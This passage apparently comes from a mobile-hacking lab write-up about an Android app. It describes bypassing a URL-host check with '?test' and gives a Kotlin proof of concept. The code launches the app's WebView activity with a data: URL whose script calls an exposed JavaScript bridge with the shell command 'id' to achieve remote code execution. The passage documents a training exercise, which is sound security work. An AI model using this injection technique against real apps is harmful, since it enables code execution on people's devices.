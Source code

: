 ![alt text](img/index-2.png#center)

I managed to load other other website by using the `?test` which ignore the input behind while still having `mobilehackinglab.com`. By using this idea, I created an POC application to perform the RCE. 

```kotlin
@Composable
fun test() {
    val intent = Intent().apply {
        setClassName(
            "com.mobilehackinglab.guessme",
            "com.mobilehackinglab.guessme.WebviewActivity"
        )
        setData(Uri.parse("mhl://mobilehackinglab/?url=data:text/html,<script>document.write(AndroidBridge.getTime('id'))</script> mobilehackinglab.com"))
    }
    LocalContext.current.startActivity(intent)
}
```
